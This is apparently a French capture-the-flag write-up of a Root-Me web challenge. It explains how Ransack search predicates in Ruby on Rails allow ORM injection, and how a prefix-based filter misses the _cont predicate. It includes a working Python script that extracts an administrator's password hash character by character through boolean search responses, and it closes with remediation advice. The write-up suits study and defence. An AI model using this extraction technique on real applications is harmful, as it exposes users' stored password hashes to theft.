

# Ruby on Rails - Ransack

## Infos

- Catégorie : Web - Serveur
- Difficulté / Points : 30 points
- Fichiers / URL fournis : un site avec une recherche sur deux champs (email et titre de post), sur une petite base de données

## Énoncé

**Object-based searching** — Trouver le mot de passe de l'administrateur.

## TL;DR

L'application utilise la gem **Ransack** (Ruby on Rails) pour chercher dans la base. On peut détourner la syntaxe de recherche pour interroger un champ non prévu — le `password_digest` de l'admin — c'est une **injection ORM**. Comme seuls certains prédicats sont autorisés, on extrait le hash caractère par caractère avec le prédicat `_cont`, en mode booléen (il y a un résultat / il n'y en a pas).

## Reconnaissance

Ruby est un langage orienté objet ; **Ruby on Rails** est son framework web. **Ransack** est une gem qui permet de construire des recherches en base via des appels de méthodes. Mal utilisée, elle ouvre la porte à une **injection ORM** (ORM = Object-Relational Mapping, la couche qui traduit les objets du code en requêtes SQL).

La syntaxe d'une recherche Ransack repose sur des **prédicats** :

```
q[${field}_${predicate}]=valeur
```

- `field` : le nom d'un attribut (une colonne, directe ou liée).
- `predicate` : l'opération. Par exemple `eq` (égal exactement), `start` (commence par), `cont` (contient), `null` (est NULL).

Dans notre challenge, la recherche part en GET et ressemble à :

```
users?utf8=✓&q[email_cont]=<entrée>&q[posts_title_cont]=<entrée>&commit=Search
```

L'idée de l'injection ORM : rien ne limite le `field` au seul `email`. On peut viser un autre attribut de la table `users`, comme la colonne `password_digest` (le hash du mot de passe dans Rails). On essaie donc d'exposer le mot de passe de l'admin petit à petit, par exemple :

```
q[email_cont]=gwittfeld&q[password_start]=a&commit=Search
```

**Problème : certains prédicats sont bloqués.** La plupart des exploitations de Ransack utilisent `_start` pour exposer une donnée lettre par lettre, mais ici il est refusé.

En fouillant, je tombe sur un endpoint `/users/advanced_search` qui plante et **affiche une erreur Rails très bavarde**. Sur le coup je la prends pour une fausse piste, mais en réalité elle livre la clé du challenge : le code de la fonction qui filtre les champs.



On y lit :

```ruby
def filter_input_fields(fields, forbidden_fields)
  fields.each { |k,v|
    forbidden_fields.each { |fd|
      if k.start_with?(fd)
        fields.delete(k)
```

Autrement dit, les champs/prédicats interdits sont supprimés si la clé **commence par** un mot interdit. C'est pour ça que `_start`, `_eq`, etc. sont bloqués, mais que **`_cont` (contient) passe au travers**.

## Exploitation

Je repars donc sur ma première piste — je m'étais arrêté trop tôt. Avec le seul prédicat autorisé, `_cont`, on peut quand même extraire le hash en mode **booléen** : pour une sous-chaîne donnée, soit la recherche renvoie l'admin (le hash la contient), soit « No result ».

Le hash étant en hexadécimal, je teste chaque caractère de `0123456789abcdef`, et je fais grandir la sous-chaîne connue vers la droite puis vers la gauche :

```python
#!/usr/bin/env python3
import requests

BASE = "http://challenge01.root-me.org:59097/users"
HEX  = "0123456789abcdef"

def contains(s):
    params = {
        "q[email_cont]": "gwittfeld",
        "q[password_digest_cont]": s,
        "commit": "Search",
    }
    r = requests.get(BASE, params=params)
    return "No result" not in r.text

# 1) graine : un premier caractère présent dans le hash
seed = next(c for c in HEX if contains(c))
s = seed

# 2) extension vers la droite
while True:
    nxt = [c for c in HEX if contains(s + c)]
    if not nxt:
        break
    s += nxt[0]

# 3) extension vers la gauche
while True:
    prev = [c for c in HEX if contains(c + s)]
    if not prev:
        break
    s = prev[0] + s

print("HASH:", s, "| longueur:", len(s))
```

Le script reconstruit ainsi tout le `password_digest` de l'administrateur.

## Flag

`masqué` *(règles Root-Me)*

## Ce que j'ai appris

1. Les bases de Ruby et de Ruby on Rails.
2. Le fonctionnement de la gem **Ransack** et de sa syntaxe à prédicats.
3. L'**injection ORM** : détourner une recherche pour interroger un champ non prévu.
4. L'extraction **booléenne** d'une donnée caractère par caractère (ici avec `_cont`), quand le prédicat habituel `_start` est bloqué.
5. **Lire les pages d'erreur** : la stack trace de `/advanced_search` livrait le code du filtre (`start_with?`), ce qui expliquait exactement quels prédicats passaient.
6. **Remédiation** : restreindre Ransack aux seuls attributs et prédicats autorisés avec `ransackable_attributes` et `ransackable_associations`, au lieu de filtrer par préfixe. Ne jamais exposer `password_digest` à la recherche.

## Ressources

- [Vaadata – Injection de requêtes Ransack](https://www.vaadata.com/blog/fr/injection-de-requetes-ransack-analyse-et-exploitation-dune-vulnerabilite-orm/)
- [Documentation Ransack](https://github.com/activerecord-hackery/ransack)
